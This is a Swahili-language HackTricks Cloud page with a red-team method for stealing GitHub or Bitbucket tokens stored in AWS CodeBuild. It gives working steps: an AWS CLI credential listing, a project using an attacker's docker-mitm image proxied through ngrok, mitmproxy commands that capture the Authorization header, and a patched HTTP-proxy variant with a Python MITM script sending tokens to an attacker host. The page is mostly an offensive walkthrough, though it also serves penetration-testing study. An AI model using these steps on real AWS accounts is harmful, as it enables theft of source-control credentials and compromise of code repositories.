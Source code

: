 # AWS Codebuild - Kuvuja kwa Kitufe cha Token

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Rudisha Vitufe vilivyowekwa kwa Github/Bitbucket

Kwanza, angalia ikiwa kuna vyeti vya chanzo vilivyowekwa ambavyo unaweza kuvuja:
```bash
aws codebuild list-source-credentials
```
### Kupitia Picha ya Docker

Ikiwa utagundua kuwa uthibitisho kwa mfano Github umewekwa kwenye akaunti, unaweza **kuchota** huo **upatikanaji** (**GH token au OAuth token**) kwa kufanya Codebuild kutumia **picha maalum ya docker** kutekeleza ujenzi wa mradi.

Kwa madhumuni haya unaweza **kuunda mradi mpya wa Codebuild** au kubadilisha **mazingira** ya moja iliyopo ili kuweka **picha ya Docker**.

Picha ya Docker unayoweza kutumia ni [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Hii ni picha ya Docker ya msingi sana ambayo itaweka **mazingira ya env `https_proxy`**, **`http_proxy`** na **`SSL_CERT_FILE`**. Hii itakuruhusu kuingilia trafiki kubwa ya mwenyeji ulioonyeshwa katika **`https_proxy`** na **`http_proxy`** na kuamini SSL CERT iliyotajwa katika **`SSL_CERT_FILE`**.

1. **Unda & Pakia picha yako ya Docker MitM**
* Fuata maagizo ya repo kuweka anwani yako ya IP ya proksi na kuweka cheti chako cha SSL na **ujenge picha ya docker**.
* **USIWEKE `http_proxy`** ili usiingilie maombi kwa kiishio cha metadata.
* Unaweza kutumia **`ngrok`** kama `ngrok tcp 4444` kuweka proksi kwa mwenyeji wako
* Mara baada ya kuwa na picha ya Docker iliyoundwa, **ipakie kwenye repo ya umma** (Dockerhub, ECR...)
2. **Wekeza mazingira**
* Unda **mradi mpya wa Codebuild** au **badilisha** mazingira ya moja iliyopo.
* Weka mradi kutumia **picha ya Docker iliyoundwa hapo awali**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Wekeza proksi ya MitM kwenye mwenyeji wako**

* Kama ilivyoelezwa katika **repo ya Github** unaweza kutumia kitu kama:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**Toleo la mitmproxy lililotumika lilikuwa 9.0.1**, iliripotiwa kwamba na toleo la 10 hii huenda isifanye kazi.
{% endhint %}

4. **Endesha ujenzi na ukamatishe siri**

*   Unaweza kuona token katika kichwa cha **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Hii pia inaweza kufanywa kutoka kwa aws cli na kitu kama hicho

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Kupitia itifaki ya HTTP~~

{% hint style="success" %}
**Udhaifu huu ulisahihishwa na AWS wakati fulani katika wiki ya tarehe 20 ya Feb ya 2023 (Nadhani Ijumaa). Kwa hivyo, muhusika hawezi tena kutumia udhaifu huu :)**
{% endhint %}

Mtu mwenye **ruhusa za juu katika CodeBuild anaweza kufichua token ya Github/Bitbucket** iliyowekwa au ikiwa ruhusa iliyowekwa kupitia OAuth, **token ya muda ya OAuth iliyotumiwa kupata nambari**.

* Mtu mwenye nia mbaya anaweza kuongeza mazingira ya pembejeo **http\_proxy** na **https\_proxy** kwa mradi wa CodeBuild ukionyesha kwenye kompyuta yake (kwa mfano `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Kisha, badilisha URL ya repo ya github kutumia HTTP badala ya HTTPS, kwa mfano: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Kisha, endesha mfano wa msingi kutoka [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) kwenye bandari inayoelekezwa na mazingira ya pembejeo (http\_proxy na https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Hatimaye, bonyeza **Jenga mradi**, **vyeti** vitatumwa **kwa maandishi wazi** (base64) kwenye mlango wa mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sasa mshambuliaji ataweza kutumia token kutoka kwenye kompyuta yake, kuorodhesha madaraka yote inayokuwa nayo na kuitumia kwa urahisi zaidi kuliko kutumia huduma ya CodeBuild moja kwa moja.
{% endhint %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
